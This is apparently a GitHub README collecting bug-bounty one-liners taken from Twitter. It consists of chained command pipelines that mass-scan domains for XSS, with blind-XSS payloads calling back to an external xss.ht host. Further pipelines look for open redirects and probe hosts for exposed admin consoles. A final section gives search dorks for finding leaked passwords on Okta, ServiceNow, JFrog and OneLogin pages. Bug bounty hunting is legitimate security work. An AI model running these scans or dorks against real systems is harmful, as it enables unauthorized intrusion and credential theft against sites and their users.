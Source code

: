 # BugBountyTIps
Everything about bug bounty tips on twitter

<h2>XSS ONE LINER</h2>

```
cat domainlist.txt | subfinder | dnsx | waybackurl | egrep -iv "\.(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|ico|pdf|svg|txt|js)" | uro  | dalfox pipe -b your.xss.ht -o xss.txt
```
## XSS ONE LINER WITH KXSS

```
assetfinder -subs-only domain.com | waybackurls | grep "=" | kxss | sed 's/=.*/=/' | sed 's/URL: //' | dalfox pipe -b https://syarifsajjad.xss.ht/
```

## OPEN REDIRECT ONE LINER

```
subfinder -all -d target.com -silent | waybackurls | gf redirect | qsreplace 'http://example.com' | httpx -fr -title -match-string 'Example Domain'
```

## ADMIN PANEL

```
cat hosts.txt | httpx -ports 80,443,8080,8443,8090 -path /web-console/ -status-code -title -nc -t 250 -mc 200 
```

## RANDOM BUG BOUNTY HUNTING (Special tweet from Orwa Atyat) :)

```
**OKTA**
http://okta.com password NOT help.okta NOT developer.okta NOT support.okta NOT www.okta
**ServiceNOW**
service-now password
**Jfrog**
http://jfrog.io password
**onelogin**
http://onelogin.com password
```
